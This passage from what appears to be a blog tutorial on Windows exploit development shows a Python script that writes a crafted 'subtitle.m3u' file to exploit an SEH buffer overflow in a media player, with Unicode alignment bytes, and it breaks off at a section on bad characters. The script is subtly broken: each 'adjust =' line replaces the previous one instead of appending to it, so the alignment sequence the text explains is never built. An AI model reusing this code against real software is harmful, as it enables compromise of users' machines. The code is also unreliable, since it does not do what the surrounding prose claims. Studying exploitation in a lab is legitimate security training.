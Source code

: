 Well when I say the beginning of the shellcode I really mean 12 bytes into the shellcode. Again this won't be repeated here but you can check this for yourself if you want. To account for this we will add in another section to accommodate  for this:

buffer = "\\x62" \* 12

Our new exploit looks like this:



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  = "\\x90" \* (6000 - len(junk+nseh+seh+adjust+buffer))
> 
> 
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()



The first of these instructions will absorb the \\x00 from the \\xc3 instruction and turn into our NOP instruction. The next 11 will not be executed and turn into \\x62\\x00:


[![](https://3.bp.blogspot.com/-IWdfeW7EiDY/UIx6uplkZzI/AAAAAAAAAD4/i5OvzZatjmk/s0/Windows+XP+Professional+SP2+-+VMware+Player_015.png)](https://3.bp.blogspot.com/-IWdfeW7EiDY/UIx6uplkZzI/AAAAAAAAAD4/i5OvzZatjmk/s0/Windows+XP+Professional+SP2+-+VMware+Player_015.png)




If all goes well when you execute the RETN instruction you should hit the first "\\x90" and the display should look similar to mine:


[![](https://4.bp.blogspot.com/-cV0wjzW78x4/UIx9hNkZufI/AAAAAAAAAEI/Tpq0cpAQajA/s0/Windows+XP+Professional+SP2+-+VMware+Player_016.png)](https://4.bp.blogspot.com/-cV0wjzW78x4/UIx9hNkZufI/AAAAAAAAAEI/Tpq0cpAQajA/s0/Windows+XP+Professional+SP2+-+VMware+Player_016.png)




### Finding Bad Characters

Next we need to identify bad characters that will cause our exploit to fail. To do this do the following:
